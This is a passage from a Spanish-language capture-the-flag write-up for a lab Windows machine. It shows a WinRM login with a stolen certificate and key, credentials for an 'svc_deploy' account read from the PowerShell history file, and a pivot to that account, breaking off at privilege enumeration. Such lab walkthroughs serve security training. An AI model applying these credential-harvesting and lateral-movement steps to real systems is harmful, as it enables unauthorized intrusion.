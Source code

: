 ## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con ello se intenta ingresar por winrm utilizando la opcion de ssl (-S), en el nombre del archivo .pfx se ve en nombre de "legacyy" por lo que estimo que ese debe ser el dueño del certificado.
~~~bash
evil-winrm -S -i 10.10.11.152 -u legacyy -c certificado_salida.cer -k privateKey.key

*Evil-WinRM* PS C:\Users\legacyy\Documents> cd ..
*Evil-WinRM* PS C:\Users\legacyy> cd desktop
*Evil-WinRM* PS C:\Users\legacyy\desktop> ls


    Directory: C:\Users\legacyy\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/4/2025   7:34 PM             34 user.txt

*Evil-WinRM* PS C:\Users\legacyy\desktop> type user.txt
<Encuentre su user flag>
~~~

---
## Escalada de Privilegios

### Enumeración de permisos
Revisando los privilegios del usuario basicos, no se pudo encontrar, por lo que se recurrio a winpeas64.exe, gracias a ello se pudo encontrar que se puede leer el historial de powershell, asi que se procede a leerlo.
~~~powershell
*Evil-WinRM* PS C:\users\legacyy\> type appdata\roaming\microsoft\windows\powershell\psreadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3<SNIP>aV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
~~~
Esto parece tener las credenciales de otro usuario llamado svc_deploy.

### Pivoteo a otro usuario
Se intenta probar las credenciales obtenidas intentando obtener acceso mediante ese usuario.
~~~powershell
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3<SNIP>aV' -S

*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
~~~
Por suerte se obtuvo el acceso, ahora volviendo a realizar la enumeración básica, se pudo notar algo interesante.
~~~powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami /all

USER INFORMATION
----------------

~~~